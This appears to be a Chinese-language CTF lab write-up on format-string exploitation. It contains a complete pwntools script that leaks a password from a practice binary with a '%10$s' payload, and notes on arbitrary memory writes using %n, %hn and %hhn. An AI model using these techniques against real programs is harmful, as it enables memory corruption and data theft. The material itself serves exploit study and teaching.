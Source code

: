 地址是0x804a048

字符串0xffffd1b8是printf的第11个参数，转换下是%10$

![image-20220820124011087](/assets/img/2022/image-20220820124011087.png)

那么只需要传入`p = p32(0x804a048) + '%10$s'`，就可以拿到0x804a048地址的值

exp:

```python
from pwn import *


r = process('./crack')
# context.log_level="debug"
# raw_input('')


r.recvuntil('?')
p = p32(0x804a048) + '%10$s'
r.sendline(p)
r.recvuntil('Hello ,')
password = u32(r.recv(8)[4:])
print(password)
r.recvuntil('Your password :')
r.sendline(str(password))

r.interactive()
```

# lab8

> 利用：任意地址写
>
> - %n 可以对特定参数写入数值，写入的数值大小等于目前已显示的字节数
>
>   - 如 `12345%3$n`表示对第四个参数指向的位置写入len("12345")=5这个数值
>
>   - **虽然很弱智，但这里还是要重点要指明的是，注意是指针指向的位置，而不是物理上的第几个参数位置**，例如
>
>     ![image-20220831234730601](/assets/img/2022/image-20220831234730601.png)
>
>     0x7fffffffe120是printf的第13个参数，我们的格式化字符串是`%8c%12$hhn`，把第13个参数处的值修改一字节为8
>
>     结果如图
>
>     ![image-20220831234915332](/assets/img/2022/image-20220831234915332.png)
>
>     改的不是**0x7fffffffe130**，**0x7fffffffe130**是一个地址，是一个指针，修改的是**0x7fffffffe130**这个地址处的值，0x5555555547c0 -> 0x555555554708
>
> - 可以配合%c来做写入
>
>   - %xxc为打印出xx个字节到屏幕上
>   - `%123c%3$n`表示对第四个参数写入123这个数值
>
> - 向指定地址写入特定值
>
>   - ![image-20220821102402754](/assets/img/2022/image-20220821102402754.png)
>
> - %n写入的大小为4个字节；%ln是8个字节；%hn是2个字节；%hhn是1个字节
>
> - 一次多个format string拼接时，要注意前面已经打印的字符数
>